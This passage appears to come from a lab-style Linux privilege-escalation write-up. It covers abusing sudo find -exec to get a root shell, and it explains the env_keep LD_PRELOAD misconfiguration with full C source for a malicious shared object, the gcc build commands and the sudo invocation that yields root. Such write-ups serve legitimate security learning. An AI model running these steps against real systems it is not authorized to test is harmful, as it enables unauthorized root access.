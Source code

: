 Abusing `find` command: 
```bash
$ sudo find / -exec /bin/bash -c 'sudo LD_PRELOAD=/tmp/shell.so /usr/bin/find' \;
root@ip-10-10-103-70:/# whoami
root
```

**Leverage LD_PRELOAD**

But if this option `env_keep` is set in the sudoers, it will tells sudo which specific environment variables to preserve instead of resetting them.

Suppose this option set with: `env_keep += "LD_PRELOAD"`, `LD_PRELOAD` is an environment variable that tells the dynamic linker (the part of Linux that loads shared libraries when a program starts) to load your specified shared library before any others — even before system libraries like `libc.so`. In short, it lets you inject your own code into a program before it runs. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD.

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

Firt write a simple C code that will spawn a root shell, then compile it using `gcc` into a shared object file.
```bash
─$ cat shell.c                                        
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h> 

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

─$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
─$ ls                                                 
shell.c  shell.so
─$ file shell.so    
shell.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=d7387b7c4c9aaa4d9c5f6c574e4cdb1596fa09af, not stripped
```

Now we can use this shared object file when launching any program our user can run with `sudo`. In our case, the user can use these commands: `find`, `less` and `nano`.

```bash
─$ sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
